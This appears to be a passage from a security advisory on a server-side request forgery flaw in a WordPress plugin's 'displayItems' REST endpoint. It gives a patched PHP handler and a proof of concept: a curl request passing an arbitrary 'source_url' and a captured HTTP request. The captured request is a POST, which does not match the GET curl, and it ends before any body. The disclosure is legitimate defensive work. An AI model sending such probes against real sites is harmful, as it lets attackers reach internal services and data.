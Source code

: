 
## Secure Code Example

```php
register_rest_route( 
  'dittyeditor/v1', 
  '/displayItems', 
  array(
    'methods'             => 'GET',
    'callback'            => 'ditty_display_items',
    'permission_callback' => function() {
        return current_user_can('manage_options');
    }
  )
);

function ditty_display_items( $request ) {
    $url = $request->get_param('source_url'); 
    
    // ✅ URL validation with allowlist
    $allowed_hosts = array('example.com', 'trusted-api.org');
    $host = parse_url($url, PHP_URL_HOST);

    if ( ! in_array($host, $allowed_hosts, true) ) {
        return new WP_Error('forbidden', 'Invalid target', array('status' => 403));
    }

    $response = wp_remote_get( esc_url_raw( $url ) );
    return wp_remote_retrieve_body( $response );
}
```

**Fixes:**  
- Added `permission_callback` to enforce authentication.  
- Used `esc_url_raw()` to sanitize input.  
- Implemented an allowlist for safe domains.  

---

## Proof of Concept (PoC)

> ⚠️ Disclaimer: This PoC should only be used in authorized test environments. Running it on production or third-party systems is strictly prohibited.

```bash
curl -i -s -k -X GET   "https://target-site.com/wp-json/dittyeditor/v1/displayItems?source_url=https://example.com/test"
```

If vulnerable, the WordPress server will issue an HTTP request to `example.com/test` and return the response.

```http
POST /wordpress/index.php/wp-json/dittyeditor/v1/displayItems HTTP/1.1
Host: site.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1/wordpress/wp-admin/plugins.php
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 436
Origin: http://127.0.0.1
Connection: keep-alive
Sec-Fetch-Dest: empty
```